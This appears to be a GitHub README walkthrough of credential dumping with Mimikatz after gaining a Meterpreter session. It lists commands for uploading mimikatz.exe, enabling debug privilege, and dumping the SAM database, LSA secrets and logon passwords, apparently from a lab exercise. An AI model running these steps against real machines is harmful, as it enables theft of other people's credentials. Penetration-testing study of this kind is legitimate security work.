






# Credential-Dumping-with-Mimikatz
Credential Dumping with Mimikatz
## Introduction of Mimikatz
Mimikatz is a free and open source program for Microsoft Windows that can be used to obtain information about login credentials. It was developed by Benjamin Delpy and Mr. Slovtsov. Mimikatz can extract plain text passwords, cryptographic hash functions, PIN codes and Kerberos tickets from memory. It can also perform pass-the-hash, pass-the-ticket, create golden tickets, work on certificates or private and protected keys.

## Credential dumping with Mimikatz
### After obtained an meterpreter sessions, we have to upload in the target machine the file mimikatz.exe
 - cd C:\\
 - mkdir Temp
 - cd Temp
 - upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe  
  
### Execute mimikatz.exe
 - shell
 - .\mimikatz.exe  
  
### Check the privilage for dumping the credentials
 - privilege::debug (vedi se ho i privilegi)  
  
### Dump the database sam 
 - lsadump::sam  
  
### Dump the secrets
 - lsadump::secrets  
  
### Dump the logon password, if bad configured, we have the password in clear text.
 - sekurlsa::logonpasswords  
  

 Unfortunately, there is no logon password in clear text, because they disabled it, so it is well configured.

#Author
<b>Xiao Li Savio Feng</b>
